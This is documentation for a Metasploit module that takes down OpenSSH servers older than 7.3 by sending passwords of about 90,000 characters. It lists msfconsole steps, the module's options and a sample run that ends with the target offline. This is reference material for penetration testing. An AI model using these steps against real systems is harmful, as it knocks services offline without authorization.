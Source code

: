 ## Vulnerable Application

If the target is running OpenSSH version prior to 7.3,
 it does not limit the password length for authentication. Hence, to exploit this vulnerability we will send a crafted data which is of 90000 characters
 in length to the 'password' field while attempting to log in to a remote
 machine via ssh with the chosen username. If the machine is vulnerable, it should crash due to high CPU consumption.

## Verification Steps

  1. Install OpenSSH < v7.3
  2. Start `msfconsole`
  3. Do `use auxiliary/dos/ssh/openssh_7.2_dos`
  4. Do `set RHOST <rhost>`
  5. Do `set REQUESTS <# of requests>`
  6. Do `run`
  7. The server should crash nearly instantly

## Options

  **REQUESTS**

  The number of requests to send to the target.

  **RANDOM_UNAME**

  Use a randomly generated username instead of 'root'.

  **CHECK_UP**

  Check if the host is up after each request. 

## Scenarios

  Using the module with `VERBOSE` set to `true`, `REQUESTS` set to 2, and `CHECK_UP` set to `true`.

  ```
  msf auxiliary(openssh_7.2_dos) > run
  
  [*] Using username: root
  [*] Sending 2 requests to [redacted]:22
  [*] Sending request 1
  [-] [redacted]:22 - Net::SSH::Disconnect: connection closed by remote host ( This means it's working )
  [*] Checking if [redacted] is up.
  [+] Tango down - [redacted] is down!
  [*] Auxiliary module execution completed
  msf auxiliary(openssh_7.2_dos) > 
  ```

